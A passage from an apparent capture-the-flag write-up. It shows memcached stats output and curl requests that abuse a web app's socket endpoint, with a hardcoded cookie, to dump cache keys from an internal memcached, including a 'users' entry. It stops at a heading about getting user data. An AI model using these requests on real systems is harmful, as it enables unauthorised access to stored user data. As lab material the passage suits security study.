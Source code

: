 ```
STAT items:16:evicted 0
STAT items:16:evicted_nonzero 0
STAT items:16:evicted_time 0
STAT items:16:outofmemory 0
STAT items:16:tailrepairs 0
STAT items:16:reclaimed 0
STAT items:16:expired_unfetched 0
STAT items:16:evicted_unfetched 0
STAT items:16:crawler_reclaimed 0
STAT items:16:crawler_items_checked 0
STAT items:16:lrutail_reflocked 0
STAT items:26:number 1
STAT items:26:age 11
STAT items:26:evicted 0
STAT items:26:evicted_nonzero 0
STAT items:26:evicted_time 0
STAT items:26:outofmemory 0
STAT items:26:tailrepairs 0
STAT items:26:reclaimed 0
STAT items:26:expired_unfetched 0
STAT items:26:evicted_unfetched 0
STAT items:26:crawler_reclaimed 0
STAT items:26:crawler_items_checked 0
STAT items:26:lrutail_reflocked 0
END

```

#### Get Item Names for Each Slab

Looking at the output from `stats items` and `stats slabs`, I’ll notice that each shows two slab ids: 16 and 26. You can think of these almost like tables in a database. Each slab is a different group of cached data.

For each slab, I’ll use the `stats cachedump` command (which is actually an [undocumented feature](https://blog.elijaa.org/2010/12/24/understanding-memcached-stats-cachedump-command/)). It will give me each item in the slab, with its size and expiration timestamp:

```

root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=stats cachedump 16 0' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'                         
ITEM stock [2807 b; 1540823371 s]
END

root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=stats cachedump 26 0' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'
ITEM users [24625 b; 1540811452 s]
END

```

#### Get Users Data

